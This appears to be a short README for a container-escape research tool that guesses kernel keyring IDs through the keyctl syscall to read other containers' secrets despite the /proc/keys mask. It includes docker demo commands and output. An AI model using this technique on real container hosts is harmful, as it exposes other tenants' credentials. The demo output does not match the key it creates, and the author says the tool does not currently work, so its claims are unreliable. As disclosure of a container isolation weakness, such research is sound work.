 # Keyctl-hunt

the `keyctl()` syscall allows a user to interact with Linux kernel keyrings 
which store sensitive information per user, session, threat, or process. These
keyrings are used by many different applications and are visible in 
`/proc/keys`. 

For containers, this was deemed a security risk you don't want your containers
to be able to see your hosts keys but but the fix for this was to simply 
"mask" `/proc/keys` so that `cat /proc/keys` would return no results. 

This mask is a lie. 

In reality, the mask truly just obfuscates the keys and there's nothing 
preventing one container from finding the keys of another container, and even
worse, keys of the host. 

# Demo

In one container, create a new key:

~~~
docker run -it --security-opt seccomp=unconfined keyctl /bin/bash \
> keyctl add user myprivatekey the-secret-is-yes @s
123456789
~~~

Run a container (with seccomp disabled like Kubernetes) and guess they keys:

~~~
docker run -it --security-opt seccomp=unconfined keyctl /bin/bash \
> keyctl_hunter -key 123456790
640540911
user;0;0;3f010000;mykey
CONTENTS OF KEY:
String:	 thisisatest
Bytes:	[1110100 1101000 1101001 1110011 1101001 1110011 1100001 1110100 1100101 1110011 1110100]
~~~

NOTE: This doesn't work right now and only exposes keys between containers, not
from the host unless the host has some silly keys exposed. 